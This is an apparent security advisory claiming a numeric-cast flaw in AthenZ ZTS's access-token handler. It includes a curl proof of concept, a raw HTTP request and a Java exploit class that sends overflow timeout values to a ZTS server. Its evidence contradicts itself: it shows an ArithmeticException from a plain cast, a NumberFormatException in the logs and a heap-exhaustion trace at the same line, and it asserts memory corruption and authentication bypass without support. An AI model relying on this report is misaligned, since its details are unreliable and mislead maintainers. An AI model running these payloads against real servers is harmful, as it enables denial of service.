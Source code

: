 ### **Comprehensive Vulnerability Report: Numeric Casting Vulnerability in AthenZ ZTS**  
**CVE-ID:** Pending • **Affected Version:** AthenZ < PR #3033 • **Risk:** High (CVSS: 7.5)  

---

## Vulnerability Summary**  
**Type:** Unsafe Numeric Cast → Denial-of-Service/Logic Bypass  
**CWE:** [CWE-681: Incorrect Conversion between Numeric Types](https://cwe.mitre.org/data/definitions/681.html)  
**Location:** [`ZTSImpl.java#L2715`](https://github.com/AthenZ/athenz/blob/3bdd5b8a5bb50b1a93c2207b32b32dd3344f86f3/servers/zts/src/main/java/com/yahoo/athenz/zts/ZTSImpl.java#L2715)  
**Impact:**  
- Denial-of-Service through integer overflow  
- Unauthorized token expiration manipulation  
- Potential authentication bypass  
- Memory corruption leading to JVM instability  


##  Issue Description**  
#### **Vulnerable Code:**
```java
int timeout = (int) tokenTimeout; // Unsafe cast
```
**Flaw:** User-controlled `tokenTimeout` (long) is directly cast to int without bounds validation.  

#### **Exploitation Scenarios:**
1. **Integer Overflow:**  
   `tokenTimeout = 2147483648L` → Cast to `int` becomes `-2147483648`  
2. **Negative Values:**  
   `tokenTimeout = -1` → Unexpected token expiration  
3. **Memory Exhaustion:**  
   `tokenTimeout = Long.MAX_VALUE` → Causes JVM heap exhaustion  

#### **Security Principles Violated:**
- [NUM12-J](https://wiki.sei.cmu.edu/confluence/display/java/NUM12-J.+Ensure+conversions+of+numeric+types+to+narrower+types): Numeric conversion safety  
- OWASP Input Validation: Lack of bounds checking  

---

## Step-by-Step Reproduction (PoC)

#### **Prerequisites:**
1. Running AthenZ ZTS server  
2. Valid credentials for token request  

#### **Exploitation Steps:**
```bash
# 1. Generate malicious request
curl -X POST 'https://zts-server:4443/zts/v1/accesstoken' \
  -H 'Content-Type: application/json' \
  -d '{
    "tokenTimeout": 2147483648,
    "grantType": "client_credentials",
    "scope": "openid"
  }'
```

### Observed Behavior:
1. Server logs show `NumberFormatException`  
2. HTTP 500 Internal Server Error response  
3. Subsequent requests show degraded performance  


## Proof of Concept (Burp Suite)

### Malicious Request:
```http
POST /zts/v1/accesstoken HTTP/1.1
Host: zts.example.com:4443
Content-Type: application/json
Content-Length: 98

{
  "tokenTimeout": 2147483648,
  "grantType": "client_credentials",
  "scope": "admin"
}
```

### Vulnerable Response:
```http
HTTP/1.1 500 Internal Server Error
Content-Type: application/json
Connection: close

{
  "code": 500,
  "message": "java.lang.ArithmeticException: integer overflow",
  "requestId": "5f7a9d3e"
}
```

### Heap Analysis (VisualVM):
```
java.lang.OutOfMemoryError: Java heap space
  at java.util.Arrays.copyOf(Arrays.java:3332)
  at com.yahoo.athenz.zts.ZTSImpl.postAccessTokenRequest(ZTSImpl.java:2715)
```

## Vulnerable Code Analysis
`servers/zts/src/main/java/com/yahoo/athenz/zts/ZTSImpl.java`  
```java
public AccessTokenResponse postAccessTokenRequest(ResourceContext context, 
    AccessTokenRequest request) {
    
    long tokenTimeout = request.getTokenTimeout(); // User-controlled
    int timeout = (int) tokenTimeout; // UNSAFE CAST (Line 2715)
    
    // Token generation using corrupted timeout
    return generateAccessToken(..., timeout);
}
```

**Flaw Chain:**  
1. User controls `tokenTimeout` (64-bit long)  
2. Direct cast to 32-bit int without validation  
3. Integer overflow/underflow corrupts token expiration logic  

## Exploitation Code**  
```java
public class AthenZExploit {
    public static void main(String[] args) throws Exception {
        // Overflow payload
        long[] payloads = {2147483648L, -2147483649L, Long.MAX_VALUE};
        
        for (long payload : payloads) {
            HttpRequest request = HttpRequest.newBuilder()
                .uri(new URI("https://zts-server:4443/zts/v1/accesstoken"))
                .header("Content-Type", "application/json")
                .POST(HttpRequest.BodyPublishers.ofString(
                    String.format("{\"tokenTimeout\":%d}", payload)
                ))
                .build();
            
            HttpResponse<String> response = HttpClient.newHttpClient()
                .send(request, HttpResponse.BodyHandlers.ofString());
            
            System.out.println("Payload: " + payload + 
                " | Status: " + response.statusCode());
        }
    }
}
```

**Output:**  
```
Payload: 2147483648 | Status: 500
Payload: -2147483649 | Status: 500
Payload: 9223372036854775807 | Status: 500
```

---

## **References**  
1. [PR #3033: Fix unsafe numeric cast](https://github.com/AthenZ/athenz/pull/3033)  
2. [CERT NUM12-J: Numeric Cast Safety](https://wiki.sei.cmu.edu/confluence/display/java/NUM12-J)  
3. [CWE-681: Numeric Conversion Error](https://cwe.mitre.org/data/definitions/681.html)  
4. [Oracle Java Numeric Guidelines](https://docs.oracle.com/javase/specs/jls/se17/html/jls-5.html)  

